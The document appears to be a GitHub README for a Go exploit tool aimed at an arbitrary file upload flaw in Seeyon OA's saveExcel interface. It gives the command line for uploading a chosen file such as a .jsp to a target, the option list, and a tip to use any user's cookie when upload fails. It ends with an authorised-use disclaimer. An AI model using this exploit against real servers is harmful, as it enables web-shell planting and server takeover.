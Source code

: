 # 致远OA_saveExcel任意文件上传exp (2023/06版本修复) 

# Usage
```
Usage：go run seeyon_saveExcel.go -u http://xx.xx.xx.xx -f xx.jsp (-c)
```

```
Options:
  -c string
        cookie [Optional]
        
  -f string
        file [Required]
        
  -u string
        target url [Required]
```
# 利用截图

有可能存在漏洞接口但上传不成功的情况，可添加任意用户cookie进行后台上传

![image](https://github.com/Pizz33/seeyon_saveExcel/assets/88339946/abf8f0be-51c6-44aa-9b57-325619811965)

![image](https://github.com/Pizz33/seeyon_saveExcel/assets/88339946/eed48758-2c5c-4b17-9c5b-944561862d0a)

# 声明

仅限用于技术研究和获得正式授权的攻防项目，请使用者遵守《中华人民共和国网络安全法》，切勿用于任何非法活动，若将工具做其他用途，由使用者承担全部法律及连带责任，作者及发布者不承担任何法律及连带责任！
